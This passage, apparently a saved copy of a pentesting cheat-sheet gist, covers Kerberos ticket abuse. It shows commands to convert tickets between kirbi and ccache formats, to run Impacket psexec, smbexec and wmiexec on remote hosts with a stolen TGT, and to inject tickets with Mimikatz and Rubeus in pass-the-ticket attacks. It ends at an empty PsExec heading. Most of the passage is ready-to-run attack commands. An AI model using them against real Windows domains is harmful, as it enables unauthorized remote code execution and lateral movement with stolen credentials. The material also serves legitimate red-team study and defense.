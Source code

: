To convert tickets between Linux/Windows format with [ticket_converter.py](https://github.com/Zer1t0/ticket_converter):

	python ticket_converter.py ticket.kirbi ticket.ccache
	python ticket_converter.py ticket.ccache ticket.kirbi

### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='28'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='582' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a#using-ticket-in-linux)Using ticket in Linux:

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:

# Set the ticket for impacket useexport KRB5CCNAME=<TGT_ccache_file_path># Execute remote commands with any of the following by using the TGTpython psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass

python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass

### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='29'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='611' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a#using-ticket-in-windows)Using ticket in Windows

Inject ticket with [Mimikatz](https://github.com/gentilkiwi/mimikatz):
mimikatz # kerberos::ptt <ticket_kirbi_file>
Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
